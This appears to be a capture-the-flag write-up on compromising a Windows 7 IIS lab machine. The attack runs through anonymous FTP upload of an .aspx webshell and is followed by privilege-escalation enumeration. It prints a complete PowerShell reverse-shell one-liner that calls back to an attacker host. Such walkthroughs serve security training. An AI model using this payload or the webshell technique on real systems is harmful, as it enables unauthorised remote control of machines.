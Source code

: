 ```
Matched Pattern: Powered-By: ASP.NET

Identified HTTP Server: Microsoft-IIS/7.5
```

Our scans return two basic services with ports open: FTP on port 21 and an IIS webserver on port 80. 

#### FTP
While the webserer only appears to contain default content, we discover that we can log in to the FTP server anonymously with `ftp anonymous@10.10.10.5`. Not only that, but we find that we have permission to upload files to the server with the `put` command. After conducting a few tests with generic image and HTTP files, we discover that the uploaded content can be accessed via the webserver on port 80.

Thus, we upload an Active Server Pages (`.aspx` - a format designed for .NET) webshell to the server. By passing commands through the relevant parameter in our requests, we discover that we have command execution on the machine as the `iis apppool\web` user. We also determine the following about the system:

```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
```


### Foothold - Reverse Shell 
In addition to enumerating our current user with `whoami`, we are able to use the `ping` command to verify that our attacking machine is reachable from the server. While we could transfer a netcat binary to the machine to generate a callback, this is an older machine and, thus, it may be easier to connect via PowerShell. With a bit of experimentation, we manage to do just that with the following shellcode:

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<attacker-ip>',8889);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Privilege Escalation
From our PowerShell, we can do a bit more manual enumeration:
`whoami /priv`
```
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled

SeImpersonatePrivilege        Impersonate a client after authentication Enabled

SeCreateGlobalPrivilege       Create global objects                     Enabled
```
